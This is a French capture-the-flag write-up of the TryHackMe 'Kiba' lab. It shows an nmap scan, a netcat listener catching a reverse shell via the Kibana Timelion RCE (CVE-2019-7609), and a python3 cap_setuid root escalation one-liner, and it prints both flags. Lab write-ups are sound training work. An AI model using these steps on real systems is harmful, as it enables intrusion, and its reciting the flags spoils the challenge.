



# kiba #

## Task 1 Flags ##

**What is the vulnerability that is specific to programming languages with prototype-based inheritance?**

On fait une recherche sur un moteur de recherche est on trouve la réponse.  
La réponse est : Prototype pollution     

**hat is the version of visualization dashboard installed in the server?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.30.209 kiba.thm' >> /etc/hosts"

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A kiba.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-04 09:42 CEST
Nmap scan report for kiba.thm (10.10.30.209)
Host is up (0.033s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
5044/tcp open  lxi-evntsvc?
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Wed, 04 Aug 2021 07:43:21 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Wed, 04 Aug 2021 07:43:20 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Wed, 04 Aug 2021 07:43:20 GMT
|_    {"statusCode":404,"error":"Not Found"}
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5601-TCP:V=7.91%I=7%D=8/4%Time=610A4518%P=x86_64-pc-linux-gnu%r(Get
SF:Request,D4,"HTTP/1\.1\x20302\x20Found\r\nlocation:\x20/app/kibana\r\nkb
SF:n-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6c
SF:\r\ncache-control:\x20no-cache\r\ncontent-length:\x200\r\nconnection:\x
SF:20close\r\nDate:\x20Wed,\x2004\x20Aug\x202021\x2007:43:20\x20GMT\r\n\r\
SF:n")%r(HTTPOptions,117,"HTTP/1\.1\x20404\x20Not\x20Found\r\nkbn-name:\x2
SF:0kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6c\r\nconten
SF:t-type:\x20application/json;\x20charset=utf-8\r\ncache-control:\x20no-c
SF:ache\r\ncontent-length:\x2038\r\nconnection:\x20close\r\nDate:\x20Wed,\
SF:x2004\x20Aug\x202021\x2007:43:20\x20GMT\r\n\r\n{\"statusCode\":404,\"er
SF:ror\":\"Not\x20Found\"}")%r(RTSPRequest,1C,"HTTP/1\.1\x20400\x20Bad\x20
SF:Request\r\n\r\n")%r(RPCCheck,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n
SF:\r\n")%r(DNSVersionBindReqTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:n\r\n")%r(DNSStatusRequestTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:n\r\n")%r(Help,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SSLSe
SF:ssionReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TerminalSer
SF:verCookie,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TLSSession
SF:Req,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(Kerberos,1C,"HTT
SF:P/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SMBProgNeg,1C,"HTTP/1\.1\x2
SF:0400\x20Bad\x20Request\r\n\r\n")%r(X11Probe,1C,"HTTP/1\.1\x20400\x20Bad
SF:\x20Request\r\n\r\n")%r(FourOhFourRequest,12D,"HTTP/1\.1\x20404\x20Not\
SF:x20Found\r\nkbn-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d0492328
SF:3ef48ab54e3e6c\r\ncontent-type:\x20application/json;\x20charset=utf-8\r
SF:\ncache-control:\x20no-cache\r\ncontent-length:\x2060\r\nconnection:\x2
SF:0close\r\nDate:\x20Wed,\x2004\x20Aug\x202021\x2007:43:21\x20GMT\r\n\r\n
SF:{\"statusCode\":404,\"error\":\"Not\x20Found\",\"message\":\"Not\x20Fou
SF:nd\"}")%r(LPDString,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(
SF:LDAPSearchReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(LDAPBi
SF:ndReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SIPOptions,1C,
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/4%OT=22%CT=1%CU=35690%PV=Y%DS=2%DC=T%G=Y%TM=610A4527
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=109%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)OPS(
OS:O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11
OS:NW7%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(
OS:R=Y%DF=Y%T=40%W=6903%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   33.07 ms 10.9.0.1
2   33.26 ms kiba.thm (10.10.30.209)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.59 seconds

```

D'après le scan de Nmap on trouve 4 ports ouverts.   
Le port 22 avec le service SSH.    
Le port 80 avec le service HTTP.
Le port 5044 avec peut être le service lxi.   
Le port 5601 avec peut être le service esmagent.    


Sur le port 80 il y a rien.    


Sur le port 5601 on trouve sur l'interface kibana.   
Dans la section Management on trouve la version de ke kibana.   

La réponse est : 6.5.4

**What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000**



En faisant un recherche on trouve la bonne version du CVE.    

Réponse : CVE-2019-7609    

**Compromise the machine and locate user.txt**



Dans Timelion de kibana on lui fournit un reverse shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le bon port pour obtenir un shell.    

Puis dans kibana cliquez sur Timelion.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from kiba.thm [10.10.30.209] 54078
bash: cannot set terminal process group (948): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kiba@ubuntu:/home/kiba/kibana/bin$ cat /home/kiba/user.txt
cat /home/kiba/user.txt
THM{1s_easy_pwn3d_k1bana_w1th_rce}

```

On foit le shell obtenu on peut lire le flag.  
La réponse est : THM{1s_easy_pwn3d_k1bana_w1th_rce}   

**How would you recursively list all of these capabilities?**

La réponse est : getcap -r /    

**Escalate privileges and obtain root.txt**

```bash
kiba@ubuntu:/home/kiba/kibana/bin$ cd ~
cd ~
kiba@ubuntu:/home/kiba$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep

```

On voit que un binaire python3 est setuid.   

```bash
kiba@ubuntu:/home/kiba$ /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
<on3 -c 'import os; os.setuid(0); os.system("/bin/bash")'                    
id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)

cat /root/root.txt
THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}

```

Exécuter un shell root à partir du python3 en setuid.   
On obtient un shell avec les droits root.    
On lit le flag.   
La réponse est : THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}     